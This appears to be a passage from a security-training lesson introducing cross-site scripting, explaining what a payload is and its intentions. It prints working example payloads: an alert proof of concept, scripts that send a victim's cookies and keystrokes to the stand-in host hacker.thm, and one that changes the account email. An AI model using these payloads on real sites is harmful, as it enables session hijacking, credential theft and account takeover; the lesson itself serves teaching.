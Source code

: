 
## What is XSS

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

- What is a payload?

	In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

	The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

	Here are some examples of XSS intentions.

- Proof Of Concept:

	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

	`<script>alert('XSS');</script>`

- Session Stealing:

	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

- Key Logger:

	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- Business Logic:

	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

	`<script>user.changeEmail('attacker@hacker.thm');</script>`

	Now that the email address for the account has changed, the attacker may perform a reset password attack.
